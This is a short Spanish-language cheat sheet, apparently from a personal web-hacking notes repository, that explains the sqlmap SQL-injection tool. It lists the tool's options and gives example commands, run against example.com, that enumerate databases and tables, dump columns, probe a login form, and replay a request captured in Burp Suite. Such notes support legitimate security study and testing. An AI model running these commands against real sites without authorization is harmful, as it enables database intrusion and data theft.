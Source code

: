 ### **Hacking Web/Inyecciones SQL/sqlmap.md**

# sqlmap

## Descripción

`sqlmap` es una herramienta de código abierto para la detección y explotación de vulnerabilidades de inyección SQL en aplicaciones web. Automatiza el proceso de explotación y permite la extracción de datos de bases de datos vulnerables.

## Uso

```bash
sqlmap [opciones]
```

### Opciones principales

- `-u URL`: Especifica la URL que se va a probar para inyección SQL.
- `--data=DATA`: Envía datos POST con la solicitud.
- `-D DBNAME`: Selecciona la base de datos a la que se quiere acceder.
- `-T TABLENAME`: Selecciona la tabla a la que se quiere acceder.
- `-C COLUMNNAME`: Selecciona las columnas específicas para extraer.
- `--dump`: Extrae el contenido de la base de datos.
- `--dbs`: Enumera las bases de datos disponibles.
- `--tables`: Enumera las tablas de una base de datos específica.
- `--columns`: Enumera las columnas de una tabla específica.
- `--batch`: Ejecuta en modo no interactivo, usando valores predeterminados.
- `-r`: Recibe un fichero con una petición almacenada, esta petición se puede conseguir a través de un proxy (burpsuite)

## Ejemplos

- Probar una URL para inyección SQL y enumerar las bases de datos:
  
  ```bash
  sqlmap -u "http://example.com/page.php?id=1" --dbs
  ```

- Extraer todas las tablas de una base de datos específica:
  
  ```bash
  sqlmap -u "http://example.com/page.php?id=1" -D nombre_db --tables
  ```

- Extraer columnas específicas de una tabla:
  
  ```bash
  sqlmap -u "http://example.com/page.php?id=1" -D nombre_db -T nombre_tabla -C columna1,columna2 --dump
  ```

- Usar datos POST en la solicitud:
  
  ```bash
  sqlmap -u "http://example.com/login.php" --data="username=admin&password=admin" --dbs
  ```

- Ataque automatico a través de una petición interceptada con burpsuite:
  
  ```bash
  sqlmap -r peticion
  ```
